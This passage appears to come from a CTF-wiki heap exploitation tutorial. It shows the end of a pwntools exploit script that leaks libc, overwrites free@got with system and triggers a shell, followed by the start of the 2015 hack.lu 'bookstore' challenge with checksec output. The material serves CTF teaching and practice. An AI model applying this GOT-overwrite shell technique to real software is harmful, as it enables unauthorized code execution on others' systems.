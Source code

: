 ```python
r.recvuntil("Content : ")

data = r.recvuntil("Done !")



free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))

libc_base = free_addr - libc.symbols['free']

log.success('libc base addr: ' + hex(libc_base))

system_addr = libc_base + libc.symbols['system']

#gdb.attach(r)

# overwrite free@got with system addr
edit(1, p64(system_addr))

# trigger system("/bin/sh")

delete(0)

r.interactive()

```



## 2015 hacklu bookstore

[Topic link] (https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/chunk-extend-shrink/2015_hacklu_bookstore)


### Basic Information


```shell

➜  2015_hacklu_bookstore git:(master) file books    

books: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3a15f5a8e83e55c535d220473fa76c314d26b124, stripped

➜  2015_hacklu_bookstore git:(master) checksec books    

[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/chunk_extend_shrink/2015_hacklu_bookstore/books'

    Arch:     amd64-64-little

    RELRO:    No RELRO

    Stack:    Canary found

    NX:       NX enabled

    PIE:      No PIE (0x400000)

```
